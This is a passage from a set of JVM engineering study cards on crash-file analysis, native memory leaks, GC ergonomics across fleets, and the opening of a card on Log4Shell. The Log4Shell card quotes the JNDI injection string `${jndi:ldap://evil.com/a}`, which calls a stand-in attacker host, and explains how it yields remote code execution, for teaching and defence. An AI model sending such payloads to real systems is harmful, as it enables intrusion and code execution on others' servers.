| Container-safe | Volume mount path | Large, slow dump  | Volume mount      |

---

### ⚡ Decision Snap

**READ hs_err FIRST WHEN:**

- JVM process disappeared without graceful shutdown.
- Container OOM killed but no java.lang.OutOfMemoryError in app logs.
- Signal-based crash (SIGSEGV, SIGBUS, SIGABRT).

**ADD CORE DUMP WHEN:**

- hs_err alone is insufficient (need full memory state).
- Crash is reproducible and you have gdb/lldb skills.

**ADD JFR WHEN:**

- Need timeline leading up to crash (what happened before).
- Crash is intermittent and you need patterns.

---

### ⚠️ Top Traps

| #   | Misconception                           | Reality                                                                                      |
| --- | --------------------------------------- | -------------------------------------------------------------------------------------------- |
| 1   | "Java cannot crash the JVM"             | Pure Java cannot. But JNI, Unsafe, and JVM bugs can and do crash the process.                |
| 2   | "hs_err means my Java code is wrong"    | Usually means JVM bug or native library issue. Java code causes exceptions, not crashes.     |
| 3   | "OOM killed = hs_err generated"         | Linux OOM killer sends SIGKILL (uncatchable). NO hs_err generated. Check `dmesg` instead.    |
| 4   | "hs_err is always in working directory" | May be in /tmp, or suppressed in containers. Use `-XX:ErrorFile=/known/path/hs_err_%p.log`.  |
| 5   | "Crash = must restart and hope"         | Most crashes are deterministic. Same input + same JNI library = same crash. Find root cause. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-041 jcmd - The Swiss Army Knife - jcmd for thread dumps and other diagnostics before crash
- JVM-079 JIT Code Cache and Deoptimization - understand JIT-generated code that may crash

**THIS:** JVM-083 JVM Crash Analysis (hs_err_pid Files)

**Next steps:**

- JVM-084 Native Memory Leaks (JNI, Unsafe, Direct BB) - native code issues that often precede crashes
- JVM-089 Unified JVM Logging (-Xlog) - logging context for pre-crash behavior

---

**The Surprising Truth:**

The hs_err file's "Instructions" section shows the raw machine code bytes around the crash point. You can decode these with `objdump -d` on the identified library to understand exactly which CPU instruction faulted. In many cases, a SIGSEGV at a small offset from zero (0x0 to 0x100) indicates a null pointer dereference through a field access (object was null, field offset added). A crash at a seemingly random large address often indicates a corrupted pointer (use-after-free or buffer overflow corrupted a reference on the heap).

**Further Reading:**

- OpenJDK wiki: "HotSpot Crash Analysis" - official guide to hs_err interpretation
- OpenJDK source: `os_linux.cpp VMError::report()` - error handler implementation
- JDK Bug System (bugs.openjdk.org) - search crash signatures to find known issues

**Revision Card:**

1. hs_err structure: read top-down. Header (signal + frame) -> thread stack -> memory map -> VM state.
2. Frame types: V=JVM bug, J=JIT bug, C=native library bug, j=interpreter (very rare).
3. Container tip: always set `-XX:ErrorFile=/volume/hs_err_%p.log` to persist crash files beyond container lifecycle.

**BAD:**

```bash
# No crash file configuration in container
java -Xmx4g -jar service.jar
# JVM crashes. Container restarts.
# hs_err written to container filesystem (lost).
# No evidence. "It just restarted."
```

**GOOD:**

```bash
# Persistent crash files + core dumps
java -Xmx4g \
  -XX:ErrorFile=/mnt/crash/hs_err_%p.log \
  -XX:+CreateCoredumpOnCrash \
  -XX:OnError="upload_crash.sh %p" \
  -jar service.jar
# Crash files survive container restart
# OnError script uploads to incident system
```

---

---

# JVM-084 Native Memory Leaks (JNI, Unsafe, Direct BB)

**TL;DR** - Native memory leaks via JNI, Unsafe, and Direct ByteBuffers grow RSS outside the Java heap, causing container OOM kills invisible to heap monitoring.

---

### 🔥 Problem Statement

A containerized JVM service has `-Xmx4g` in a 6GB container. Heap usage is stable at 3.2GB. Yet RSS grows steadily: 5.5GB after 24 hours, then OOM killed. Heap dumps show nothing unusual. The leak is in native memory - allocated via JNI malloc, Unsafe.allocateMemory, or Direct ByteBuffers that are not being reclaimed. Standard Java diagnostics (heap dump, GC logs) cannot see these allocations because they exist outside the managed heap.

---

### 📜 Historical Context

Native memory leaks became critical with widespread NIO adoption (JDK 1.4, 2002) introducing Direct ByteBuffers. The Netty framework (2004+) heavily uses off-heap memory for zero-copy I/O. JNI has always been a native memory source. Before NMT (Native Memory Tracking, JDK 8), diagnosing native leaks required OS-level tools (valgrind, jemalloc profiling). NMT made JVM-internal native allocation visible, but JNI mallocs from third-party libraries remain invisible to NMT.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **GC does not manage native memory:** Direct ByteBuffers have a Java object on-heap (the reference) but the actual data is in native memory. GC collects the Java object; only then is the native memory freed (via Cleaner/Deallocator).
2. **Reference -> native coupling is fragile:** If the Java reference leaks (retained in a collection, closure, or thread-local), the native memory is never freed despite being "invisible" to heap analysis tools.
3. **NMT sees JVM allocations only:** `malloc` calls from JNI libraries, custom Unsafe usage, and mmap operations from native code are NOT tracked by NMT.

**DERIVED DESIGN:**

These invariants mean: (1) native memory leaks manifest as RSS growth without heap growth, (2) diagnosis requires BOTH heap analysis (find retained DirectByteBuffer references) and OS-level analysis (RSS breakdown), (3) explicit memory management (release/close patterns) is required for native resources.

**THE TRADE-OFF:**

**Gain:** Off-heap memory avoids GC overhead for large buffers. Zero-copy I/O. Native library integration.

**Cost:** Manual lifecycle management. Invisible to standard Java monitoring. OOM kills without warning.

---

### 🧠 Mental Model

> Java heap is a managed apartment building (landlord/GC handles cleanup). Native memory is a self-service storage unit (you manage your own space). Direct ByteBuffers are like renting a storage unit through the apartment office - the office tracks your key (Java reference), and when you move out (reference collected), they eventually reclaim the unit. But if you lose the key inside a drawer (retained reference), the unit stays rented forever.

- "Apartment building" -> managed Java heap (GC cleans up)
- "Storage units" -> native memory (manual management)
- "Key through apartment office" -> Direct BB Java reference
- "Lost key in drawer" -> retained reference preventing cleanup
- "Unit rented forever" -> native memory leak

**Where this analogy breaks down:** real storage units have lease terms (auto-expire). Native memory has no timeout - it leaks until process termination. Also, the "cleaning service" (GC + Cleaner) only runs when it feels like it (GC triggered), not on a schedule you control.

---

### 🧩 Components

- **Direct ByteBuffer:** Java NIO buffer backed by native memory (`malloc`). Freed when GC collects the referencing Java object + Cleaner runs.
- **MappedByteBuffer:** Memory-mapped file. RSS grows with mapped regions. Freed on GC + unmap.
- **Unsafe.allocateMemory:** Raw native allocation. MUST be explicitly freed with `Unsafe.freeMemory`. No GC safety net.
- **JNI malloc:** Native code allocating via `malloc`/`calloc`. JVM has no visibility. Library must free.
- **Cleaner (java.lang.ref.Cleaner):** Reference-based cleanup mechanism. Runs when referent is GC-collected. Replacement for deprecated `finalize()`.
- **MaxDirectMemorySize:** Bounds total Direct BB allocation. Default = `-Xmx` value. Exceeding triggers OOM.

```text
Native memory sources (not tracked by GC):
  1. Direct ByteBuffer: NIO allocations
     Freed: when Java ref collected + Cleaner
  2. MappedByteBuffer: mmap files
     Freed: when Java ref collected + unmap
  3. Unsafe.allocateMemory: raw native
     Freed: explicit freeMemory() ONLY
  4. JNI malloc: library allocations
     Freed: library must free() itself
  5. Thread stacks: -Xss per thread
     Freed: when thread terminates
```


```mermaid
flowchart TD
    A[Native Memory Sources] --> B[Direct ByteBuffer]
    A --> C[Unsafe.allocateMemory]
    A --> D[JNI malloc]
    A --> E[Thread stacks]
    B --> F{Java ref collected?}
    F -->|Yes| G[Cleaner frees native]
    F -->|No| H[LEAK: native retained]
    C --> I{freeMemory called?}
    I -->|Yes| J[Freed]
    I -->|No| K[LEAK: permanent]
    D --> L{Library calls free?}
    L -->|Yes| M[Freed]
    L -->|No| N[LEAK: invisible to JVM]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Java has memory that lives outside the garbage-collected heap. This "native memory" is used for I/O buffers, native libraries, and low-level operations. If this memory is not properly freed, it grows unbounded even though your heap looks fine - eventually crashing the process.

**Level 2 - How to use it:** Monitor RSS vs heap: `ps aux | grep java` shows RSS. If RSS >> Xmx + expected overhead, native leak suspected. Enable NMT: `-XX:NativeMemoryTracking=summary`. Use `jcmd <pid> VM.native_memory summary.diff` to see growth.

**Level 3 - How it works:** Direct ByteBuffers allocate native memory via `malloc`. The Java object holds a reference to the native pointer. When GC collects the Java object, a Cleaner (phantom reference callback) calls `free()` on the native pointer. If the Java object is retained (in a cache, ThreadLocal, or leaked collection), the native memory is never freed. The leak is invisible to heap analysis because the Java object itself is tiny (few bytes of metadata).

**Level 4 - Production mastery:** The most dangerous leak pattern: Direct ByteBuffers in a pool that grows without bound. Each buffer's Java reference is small (surviving heap size checks) but the native backing is large (e.g., 64KB each). A pool retaining 100K buffers leaks 6.4GB of native memory invisible to all heap-based tools. Diagnosis: `jcmd VM.native_memory summary` shows "Other" or "Internal" category growing. For JNI leaks invisible to NMT: use jemalloc profiling (`LD_PRELOAD=libjemalloc.so MALLOC_CONF=prof:true`).

---

### ⚙️ How It Works

**Phase 1 - Allocation:** `ByteBuffer.allocateDirect(size)` calls `malloc(size)`. Creates Java DirectByteBuffer object on heap (tiny) + native memory (size bytes) off-heap.

**Phase 2 - Usage:** Application reads/writes the native buffer via Java API. Zero-copy I/O possible (kernel reads/writes native memory directly).

**Phase 3 - Expected cleanup:** Java reference becomes unreachable. GC collects it. Cleaner callback fires, calling `free()` on native pointer. Native memory returned to OS.

**Phase 4 - Leak path:** Java reference retained (cache, ThreadLocal, closure). GC never collects it. Native memory never freed. RSS grows until OOM kill.

```text
Normal lifecycle:
  allocate -> use -> dereference -> GC -> free
  [Java ref] -------> [collected] -> [Cleaner]
  [native mem] -----> [still live] -> [freed]

Leak lifecycle:
  allocate -> use -> retained in cache -> NEVER freed
  [Java ref] --> [in HashMap forever]
  [native mem] --> [leaked permanently]
  RSS: grows 64KB per retained buffer
```


```mermaid
sequenceDiagram
    participant App as Application
    participant Heap as Java Heap
    participant Native as Native Memory
    participant GC as Garbage Collector
    App->>Native: malloc(65536)
    App->>Heap: new DirectByteBuffer(ptr)
    App->>App: use buffer...
    App->>App: cache.put(key, buffer) LEAK!
    Note over GC: buffer ref in cache - never collected
    Note over Native: 64KB leaked permanently
    Note over Native: x1000 buffers = 64MB leaked
```

---

### 🚨 Failure Modes

**Failure 1 - Direct ByteBuffer Retention Leak:**

**Symptom:** RSS grows linearly with request count. Heap stable. Container OOM killed after hours/days.

**Root cause:** Direct ByteBuffers retained in unbounded cache, ThreadLocal not cleaned, or Netty ByteBuf not released (missing `ReferenceCountUtil.release()`).

**Diagnostic:**

```bash
# NMT shows "Internal" category growing:
jcmd <pid> VM.native_memory summary.diff
# Look for: Internal (reserved=+500MB)
# Or: Direct ByteBuffer count:
jcmd <pid> VM.system_properties | grep sun.nio
# -XX:MaxDirectMemorySize check
```

**Fix:** Find retained references via heap dump (search for `java.nio.DirectByteBuffer` instances). Ensure Netty buffers are released in finally blocks. Bound Direct BB pools.

**Failure 2 - JNI Library Leak:**

**Symptom:** RSS grows but NMT shows no significant change. All JVM-tracked categories stable.

**Root cause:** Third-party native library (OpenSSL, image processing, ML inference) allocates with malloc but never frees.

**Diagnostic:**

```bash
# jemalloc heap profiling:
LD_PRELOAD=/usr/lib/libjemalloc.so \
  MALLOC_CONF="prof:true,prof_prefix:jeprof" \
  java -jar service.jar
# Generate profile: jeprof --svg ...
```

**Fix:** Update native library. Report bug upstream. If unfixable: isolate in subprocess, recycle periodically.

---

### 🔬 Production Reality

A common Netty-based service pattern: HTTP client creates Direct ByteBuffers for response bodies. Under normal load, buffers are released promptly. Under burst traffic with timeouts, the timeout handler cancels the request but does not release the buffer (missing `finally` in the handler chain). Each timed-out request leaks 8-64KB of native memory. At 100 timeouts/second, the service leaks 0.8-6.4 MB/s - invisible to heap monitoring, OOM killed in 10-60 minutes under sustained timeout conditions.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Direct ByteBuffer  | Heap ByteBuffer | Unsafe.allocate  |
| --------------- | ------------------ | --------------- | ---------------- |
| GC overhead     | None (off-heap)    | Full (on-heap)  | None             |
| Safety net      | Cleaner (delayed)  | GC (guaranteed) | None (manual)    |
| Leak risk       | Medium (ref-based) | None            | Extreme (manual) |
| I/O performance | Zero-copy          | Extra copy      | Zero-copy        |
| Monitoring      | NMT (partial)      | Heap tools      | Invisible        |

---

### ⚡ Decision Snap

**USE DIRECT BYTEBUFFER WHEN:**

- I/O performance critical (zero-copy with kernel).
- Buffer lifecycle is well-defined (allocate, use, release).
- Team understands reference lifecycle implications.

**USE HEAP BYTEBUFFER WHEN:**

- Safety over performance. Cannot afford native leak risk.
- Buffers are short-lived and small.

**AVOID UNSAFE WHEN:**

- Almost always. Use Direct ByteBuffer instead.
- Unsafe has no safety net and no standard lifecycle management.

---

### ⚠️ Top Traps

| #   | Misconception                                 | Reality                                                                                           |
| --- | --------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| 1   | "Heap dump shows all memory"                  | Heap dump shows Java heap only. Native memory (most leaks) is invisible in heap dumps.            |
| 2   | "GC will free Direct ByteBuffers"             | Only if the Java REFERENCE is collected. Retained references = permanent native leak.             |
| 3   | "NMT tracks all native memory"                | NMT tracks JVM-internal only. JNI library malloc is invisible. Use jemalloc for those.            |
| 4   | "Container OOM = need more Xmx"               | If heap is stable, adding Xmx makes it WORSE (less room for native). Fix the native leak.         |
| 5   | "Small Java objects cannot cause large leaks" | DirectByteBuffer Java object is ~50 bytes. Backing native memory is 64KB+. 1M refs = 64GB leaked. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-063 Native Memory Tracking (NMT) - primary tool for diagnosing JVM-side native usage
- JVM-060 Memory Leak Diagnosis Workflow - heap-side workflow extended to native

**THIS:** JVM-084 Native Memory Leaks (JNI, Unsafe, Direct BB)

**Next steps:**

- JVM-083 JVM Crash Analysis (hs_err_pid Files) - native leaks often precede crashes
- JVM-065 JVM in Kubernetes - Resource Limits Done Right - container sizing must account for native memory

---

**The Surprising Truth:**

`System.gc()` is actually USEFUL for Direct ByteBuffer cleanup. Direct BB deallocation depends on GC collecting the Java reference object, which triggers the Cleaner. If allocation rate is low (GC runs infrequently), Direct BBs accumulate in native memory for long periods despite being unreachable. Calling `System.gc()` periodically (or using `-XX:MaxDirectMemorySize` to trigger it) forces collection of these phantom-reachable objects. This is one of the few cases where `System.gc()` is the CORRECT solution, not an anti-pattern.

**Further Reading:**

- JDK source: `java.nio.DirectByteBuffer` + `jdk.internal.ref.Cleaner` - lifecycle implementation
- Netty documentation: "Reference counted objects" - ByteBuf lifecycle
- JEP 370: Foreign-Memory Access API (incubator) - future replacement for Unsafe/Direct BB

**Revision Card:**

1. Native leaks: RSS grows, heap stable. Container OOM with healthy-looking GC. Always suspect Direct BB or JNI.
2. Diagnosis: NMT diff for JVM-internal. jemalloc profiling for JNI. Heap dump for retained DirectByteBuffer references.
3. System.gc() helps Direct BB cleanup (forces Cleaner to run). One of few legitimate uses of explicit GC.

**BAD:**

```java
// Unbounded Direct ByteBuffer cache
Map<String, ByteBuffer> cache = new HashMap<>();
void processRequest(String id, byte[] data) {
    ByteBuffer buf = ByteBuffer.allocateDirect(data.length);
    buf.put(data);
    cache.put(id, buf); // Never evicted!
    // Each entry: ~50B on heap, 64KB native
    // 1M entries = 50MB heap (looks fine)
    //            = 64GB native (OOM kill)
}
```

**GOOD:**

```java
// Bounded cache with explicit cleanup
Map<String, ByteBuffer> cache =
    new LinkedHashMap<>() {
    protected boolean removeEldestEntry(
        Map.Entry<String, ByteBuffer> e) {
        if (size() > 10_000) {
            // Explicitly clean native memory
            ((DirectBuffer) e.getValue()).cleaner()
                .clean();
            return true;
        }
        return false;
    }
};
```

---

---

# JVM-085 GC Ergonomics Failures at Scale

**TL;DR** - GC ergonomics (auto-tuning heuristics) optimize for single-instance behavior but fail at fleet scale where variance matters more than average performance, causing cascading failures during load spikes.

---

### 🔥 Problem Statement

A fleet of 200 JVM instances runs with default GC ergonomics. Under normal load, heuristics work well. During a traffic spike, ergonomics makes different decisions on different instances (based on each instance's slightly different history). Some instances trigger Full GC at the spike peak, becoming temporarily unavailable. Load balancers shift traffic to remaining instances - which now face even higher load - triggering more Full GCs. Within 60 seconds, 40% of the fleet is in GC, creating a cascading failure. The root cause: GC heuristics optimized each instance independently without considering fleet-level behavior.

---

### 📜 Historical Context

GC ergonomics were introduced in JDK 5 (2004) to reduce tuning burden. The JVM automatically adjusts: heap size (within Xms-Xmx), generation ratios, GC algorithm selection (on small heaps), and IHOP threshold (G1). This worked well for single-instance deployments. The microservice revolution (2014+) created fleets of hundreds of identical instances where ergonomic variance between instances creates systemic risk. The term "thundering herd GC" emerged to describe correlated GC events across fleet members.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Ergonomics optimize locally:** Each JVM instance optimizes for its own observed behavior. No fleet-level coordination exists.
2. **Heuristic variance is multiplicative:** Small differences in history (startup order, warmup traffic) cause divergent ergonomic decisions under identical future load.
3. **Failure correlation matters at scale:** If each instance has 1% chance of Full GC per minute, with 200 instances you expect 2 Full GCs/minute (acceptable). But correlated triggers (load spike) can cause 50+ simultaneous Full GCs (catastrophic).

**DERIVED DESIGN:**

These invariants mean: (1) fixed GC parameters (disabling adaptive sizing) produce more predictable fleet behavior, (2) fleet-level monitoring of GC distribution is essential, (3) GC tuning for fleet must consider worst-case variance, not average behavior.

**THE TRADE-OFF:**

**Gain:** Ergonomics require zero tuning. Good default behavior for single-instance, varied-workload scenarios.

**Cost:** Unpredictable behavior at fleet scale. Variance between instances. Cascading failure risk under load spikes.

---

### 🧠 Mental Model

> GC ergonomics is like auto-pilot on 200 identical planes flying in formation. Each auto-pilot adjusts independently based on its own sensors. Under calm conditions, the formation holds. During turbulence (load spike), each auto-pilot makes slightly different adjustments based on its unique history. Some planes dive (Full GC), forcing others to fill the gap - causing more dives. Manual (fixed) settings keep the formation stable through turbulence.

- "Auto-pilot" -> GC ergonomics (adaptive heuristics)
- "Plane formation" -> fleet of JVM instances
- "Turbulence" -> traffic spike or infrastructure event
- "Dive" -> Full GC (instance temporarily unavailable)
- "Formation gap" -> load redistributed to remaining instances
- "Manual settings" -> fixed GC parameters

**Where this analogy breaks down:** real auto-pilots have collision avoidance (coordination). JVM instances have zero coordination - each is completely independent. Also, a "diving" plane cannot recover by receiving more traffic, but JVM instances can recover after GC (they do not crash permanently).

---

### 🧩 Components

- **Adaptive heap sizing:** JVM grows/shrinks heap between -Xms and -Xmx based on GC overhead. Disabled by setting `-Xms == -Xmx`.
- **Adaptive IHOP (G1):** G1 adjusts initiating heap occupancy threshold based on observed marking duration and allocation rate. Can be fixed: `-XX:InitiatingHeapOccupancyPercent=45 -XX:-G1UseAdaptiveIHOP`.
- **Adaptive generation sizing:** Young gen size adjusted by GC pause goals. Fixed with `-XX:NewRatio` or `-Xmn`.
- **GC thread auto-scaling:** Number of parallel GC threads adjusted based on CPU count. Fixed with `-XX:ParallelGCThreads` and `-XX:ConcGCThreads`.
- **Pause time goal:** `-XX:MaxGCPauseMillis` (default 200ms for G1). Ergonomics adjusts young gen to meet this goal.

```text
Ergonomic drift pattern (3 instances):

Time 0 (startup): all instances identical
Time 1h: slightly different allocation rates
  Instance A: IHOP adjusted to 42%
  Instance B: IHOP adjusted to 47%
  Instance C: IHOP adjusted to 44%

Load spike hits:
  Instance B: IHOP not reached, young GC only
  Instance A: IHOP reached, concurrent mark starts
  Instance C: IHOP reached + mark too slow = Full GC
  -> C unavailable, traffic shifts to A and B
  -> A now also triggers Full GC...
```


```mermaid
flowchart TD
    A[Traffic Spike] --> B[Instance C: Full GC]
    B --> C[Load shifts to A and B]
    C --> D[Instance A: Full GC from extra load]
    D --> E[All load on Instance B]
    E --> F[Instance B: Full GC]
    F --> G[Fleet Outage - all in GC]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** The JVM automatically adjusts garbage collection settings based on observed behavior. This auto-tuning ("ergonomics") works well for single services but can cause problems when many identical services need to behave predictably under stress.

**Level 2 - How to use it:** For fleet stability, fix key parameters: `-Xms == -Xmx` (no heap resizing), fixed IHOP (`-XX:InitiatingHeapOccupancyPercent=45 -XX:-G1UseAdaptiveIHOP`), fixed thread counts. This trades per-instance optimization for fleet predictability.

**Level 3 - How it works:** Ergonomics uses feedback loops: measure GC pause, compare to goal (MaxGCPauseMillis), adjust young gen size. If pauses too long, shrink young gen (more frequent, shorter GCs). If pauses under budget, grow young gen (less frequent GCs). Each instance's feedback loop converges differently based on its unique traffic pattern and startup history.

**Level 4 - Production mastery:** The dangerous ergonomic is adaptive IHOP. G1 adjusts when to start concurrent marking based on observed allocation rate and marking duration. During a traffic spike, allocation rate jumps. If the adaptive IHOP has drifted high (47% instead of 40%), marking starts too late, cannot complete before regions exhaust, triggering Full GC. Fixed IHOP at a conservative value (35-40%) ensures marking starts early enough to handle spikes. The cost: slightly more frequent concurrent marking during normal operation (acceptable CPU overhead vs catastrophic failure risk).

---

### ⚙️ How It Works

**Phase 1 - Steady State:** Ergonomics converges to settings matching current load. Each instance may converge differently.

**Phase 2 - Load Spike:** Allocation rate increases 3-5x. Ergonomics has not yet adapted (feedback loop has latency).

**Phase 3 - Divergent Behavior:** Instances with aggressive IHOP settings trigger concurrent marking too late. Some fail to complete marking before regions exhaust.

**Phase 4 - Cascading Failure:** Failed instances trigger Full GC (1-10s pause). Load balancer shifts traffic. Remaining instances face amplified load, triggering their own failures.

```text
Fleet GC cascade timeline:
  t+0s:   Spike hits. All instances at 40-47% heap.
  t+5s:   Instance with IHOP=47 starts marking.
  t+10s:  Allocation exhausts free regions.
  t+11s:  FULL GC on 3 instances (they pause 5s).
  t+12s:  LB shifts traffic to remaining 197.
  t+15s:  5 more instances hit Full GC.
  t+20s:  20 instances in Full GC simultaneously.
  t+30s:  Cascading failure, SLA breach.

  Prevention: fixed IHOP=40, Xms=Xmx
  -> All instances start marking at same point
  -> No divergence, no cascade
```


```mermaid
sequenceDiagram
    participant LB as Load Balancer
    participant I1 as Instance 1 (IHOP=47%)
    participant I2 as Instance 2 (IHOP=42%)
    participant I3 as Instance 3 (IHOP=40%)
    LB->>I1: traffic spike
    LB->>I2: traffic spike
    LB->>I3: traffic spike
    I1->>I1: marking starts late - FULL GC!
    LB->>I2: extra traffic from I1
    I2->>I2: marking barely succeeds
    I3->>I3: marking starts early - handles spike
    Note over I1: 5s pause - unavailable
    LB->>I2: all of I1's traffic
    I2->>I2: FULL GC from overload!
```

---

### 🚨 Failure Modes

**Failure 1 - Thundering Herd GC:**

**Symptom:** Multiple fleet instances enter Full GC within a 30-second window. Cascading unavailability. SLA breach.

**Root cause:** Correlated trigger (traffic spike, cache invalidation, bulk job) hits fleet with divergent ergonomic states.

**Diagnostic:**

```bash
# Fleet-wide GC pause correlation:
# Grafana query: count of p99_gc_pause > 1s
#   grouped by instance, time window 30s
# If >5% of fleet in Full GC simultaneously:
# -> correlated GC failure
```

**Fix:** Fix IHOP: `-XX:-G1UseAdaptiveIHOP -XX:InitiatingHeapOccupancyPercent=40`. Fix heap: `-Xms == -Xmx`. Fixed parameters prevent divergence.

**Failure 2 - Heap Oscillation:**

**Symptom:** JVM repeatedly grows and shrinks heap (-Xms != -Xmx). Each resize triggers Full GC or system calls.

**Root cause:** Adaptive sizing responds to fluctuating load by repeatedly adjusting heap size.

**Diagnostic:**

```bash
# GC log shows heap capacity changing:
grep "Heap:" gc.log | awk '{print $NF}' | uniq
# If capacity oscillates: sizing instability
```

**Fix:** Set `-Xms == -Xmx` (eliminate resizing entirely). Pre-allocate full heap at startup.

---

### 🔬 Production Reality

A common pattern in autoscaling Kubernetes deployments: new pods start with cold JIT and conservative ergonomic settings. As they warm up, ergonomics diverge. During a scale-down event, remaining pods receive concentrated traffic. Pods whose ergonomics drifted aggressively (larger young gen, higher IHOP) fail first. The fix adopted by large-scale deployments: lock all ergonomic parameters, tune once based on load testing at 2x expected peak, and deploy uniformly. The 5-10% throughput loss from conservative fixed settings is acceptable compared to the risk of cascading GC failure.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Full ergonomics  | Fixed parameters       | Hybrid (fix critical) |
| --------------- | ---------------- | ---------------------- | --------------------- |
| Tuning effort   | Zero             | Significant            | Moderate              |
| Predictability  | Low (variance)   | High (uniform)         | High for fixed params |
| Peak throughput | Higher (adapted) | Lower (conservative)   | Moderate              |
| Fleet safety    | Low (divergence) | High (no diverge)      | High for fixed params |
| Failure mode    | Cascading GC     | Consistent degradation | Bounded variance      |

---

### ⚡ Decision Snap

**FIX GC PARAMETERS WHEN:**

- Fleet size > 10 instances of same service.
- SLA requires predictable tail latency under spikes.
- Cascading failure has occurred or is unacceptable risk.

**USE ERGONOMICS WHEN:**

- Single instance or very small fleet (<5).
- Workload varies dramatically (hard to tune manually).
- Acceptable to occasionally degrade during spikes.

**HYBRID (recommended for most):**

- Fix: -Xms==-Xmx, IHOP, ConcGCThreads.
- Leave adaptive: young gen sizing within bounded range.

---

### ⚠️ Top Traps

| #   | Misconception                       | Reality                                                                                       |
| --- | ----------------------------------- | --------------------------------------------------------------------------------------------- |
| 1   | "Ergonomics is always best"         | For single instances, yes. For fleets, predictability > per-instance optimization.            |
| 2   | "MaxGCPauseMillis is a hard limit"  | It is a GOAL, not a guarantee. GC will exceed it when necessary. Do not use as SLA guarantee. |
| 3   | "All instances behave identically"  | Startup order, traffic routing, and JIT warmup create divergent ergonomic states.             |
| 4   | "Load testing proves settings work" | Load testing validates ONE instance. Fleet behavior under correlated failure is different.    |
| 5   | "Adaptive IHOP is always better"    | Adaptive IHOP can drift too high during calm periods, causing failure when spikes arrive.     |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-061 GC Tuning Methodology - Measure First - understand individual-instance tuning
- JVM-066 GC Pause Budget - SLA-Driven Tuning - pause budgets interact with ergonomic decisions

**THIS:** JVM-085 GC Ergonomics Failures at Scale

**Next steps:**

- JVM-095 JVM Fleet Observability - Key Metrics - monitoring that detects ergonomic divergence
- JVM-096 Premature GC Tuning Anti-Pattern - distinguish real tuning from premature optimization

---

**The Surprising Truth:**

The `-XX:MaxGCPauseMillis=200` default is arguably the MOST DANGEROUS ergonomic in production G1. It is not a guarantee - it is a goal that G1 tries to meet by shrinking young gen. Under sustained load, G1 shrinks young gen so aggressively to meet the pause goal that GC frequency increases dramatically (young GC every 50ms instead of every 500ms). This causes 10-20x more GC overhead from frequency alone, collapsing throughput while technically meeting the pause goal. The correct approach: set MaxGCPauseMillis higher (500-1000ms) and control actual pauses via heap sizing and IHOP rather than letting the pause goal drive young gen into the floor.

**Further Reading:**

- OpenJDK wiki: "G1GC Tuning" - adaptive behavior documentation
- Ionut Balosin, "JVM Ergonomics at Scale" (QCon 2022)
- Google SRE Book, Ch. 22: "Addressing Cascading Failures"

**Revision Card:**

1. Ergonomics optimizes per-instance. Fleet needs predictability: fix Xms==Xmx, fixed IHOP, fixed thread counts.
2. MaxGCPauseMillis is a GOAL not a limit. Too low shrinks young gen destructively. Set 500-1000ms for G1.
3. Cascading GC failure: correlated trigger + divergent ergonomics = fleet outage. Fix parameters prevent divergence.

**BAD:**

```bash
# Full ergonomics in a 200-instance fleet
java -Xms2g -Xmx8g \
  -XX:MaxGCPauseMillis=100 \
  -jar service.jar
# Each instance converges differently
# Spike: some at 6GB heap, some at 4GB
# Divergent IHOP: 38-52% across fleet
# Result: cascading Full GC
```

**GOOD:**

```bash
# Fixed critical parameters for fleet stability
java -Xms8g -Xmx8g \
  -XX:+UseG1GC \
  -XX:MaxGCPauseMillis=500 \
  -XX:InitiatingHeapOccupancyPercent=40 \
  -XX:-G1UseAdaptiveIHOP \
  -XX:ConcGCThreads=4 \
  -jar service.jar
# All 200 instances behave identically
# No ergonomic divergence under spikes
```

---

---

# JVM-086 Log4Shell and JVM Attack Surface (2021)

**TL;DR** - Log4Shell (CVE-2021-44228) exploited JNDI lookup in logging to achieve remote code execution, revealing how JVM features (JNDI, serialization, classloading) compose into attack surfaces that defenders must understand.

---

### 🔥 Problem Statement

In December 2021, a critical zero-day affected virtually every Java application using Log4j 2.x. An attacker sends a crafted string `${jndi:ldap://evil.com/a}` in any logged field (HTTP header, form input, error message). Log4j's message lookup feature resolves the JNDI expression, contacting an attacker-controlled LDAP server, which responds with a URL pointing to a malicious Java class. The JVM loads and executes this class - achieving unauthenticated remote code execution (RCE). This is not a JVM vulnerability per se, but a demonstration of how JVM features (JNDI, dynamic classloading, serialization) compose into devastating attack surfaces when exposed through libraries.

---

### 📜 Historical Context

JNDI (Java Naming and Directory Interface) was introduced in JDK 1.3 (2000) for enterprise service lookup. The ability to load remote classes via JNDI was a designed feature for distributed systems. JDK 8u191 (2018) disabled remote classloading from LDAP/RMI by default (`com.sun.jndi.ldap.object.trustURLCodebase=false`). However, deserialization-based attacks still worked even with this restriction. Log4Shell was not the first JNDI attack (it was well-known in security research since 2016) but its ubiquity in logging made it universal.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Dynamic classloading is RCE-equivalent:** Loading a class from an untrusted source means executing its static initializer. Static initializer can run arbitrary code.
2. **JNDI is a classloading vector:** JNDI lookup can return serialized objects or class references from remote sources. Any uncontrolled JNDI lookup is potentially RCE.
3. **Serialization is an object instantiation vector:** Deserializing untrusted data creates arbitrary object graphs, triggering constructors and gadget chains.

**DERIVED DESIGN:**

These invariants mean: (1) never perform JNDI lookups with user-controlled input, (2) disable remote classloading features in production, (3) treat serialization of untrusted data as equivalent to code execution.

**THE TRADE-OFF:**

**Gain:** JNDI/serialization enables powerful enterprise features (service discovery, distributed objects, session replication).

**Cost:** Enormous attack surface when any input path reaches these features. Defense-in-depth required.

---

### 🧠 Mental Model

> Log4Shell is like a front desk that accepts any delivery (user input), opens the package (JNDI lookup), and plugs in whatever device is inside (loads remote class). The fix is not just screening packages (input validation) but removing the power outlet from the mailroom entirely (disabling JNDI lookups in logging, disabling remote classloading).

- "Front desk" -> Log4j message processing
- "Accepts any delivery" -> logs user-controlled strings
- "Opens package" -> JNDI lookup resolves the expression
- "Plugs in device" -> loads and executes remote class
- "Remove power outlet" -> disable JNDI lookups entirely

